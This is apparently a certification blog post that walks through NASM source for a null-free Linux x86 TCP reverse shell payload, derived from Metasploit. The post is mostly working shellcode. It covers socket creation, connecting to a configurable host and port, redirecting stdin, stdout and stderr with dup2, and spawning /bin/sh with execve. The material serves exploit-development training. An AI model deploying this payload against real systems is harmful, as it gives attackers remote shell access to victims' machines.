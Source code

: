 # 2. TCP Reverse Shell (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP reverse shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening host and port.

## Solution

The solution is based in the [linux/x86/shell_reverse_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_reverse_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening host and port are defined at the top of the NASM source (the IP address 127.1.1.1 is an alternative to 127.0.0.1 without null bytes):

```nasm
global _start

ip equ 0x101017f            ; ip = 127.1.1.1 (big endian)
port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

A connection is established on the socket to the listening host using the [connect](https://man7.org/linux/man-pages/man2/connect.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = [IP] }
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x3
    ;   connect(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push ip                 ; push s_addr = IP
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    inc ebx                 ; socketcall = 3
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(s, 0..2)
    mov ecx, ebx            ; newfd = 3
    pop ebx                 ; oldfd = s
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 0 from successful connect return first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    push edx                ; push null byte
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_reverse.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_reverse.nasm)

## Conclusion

...
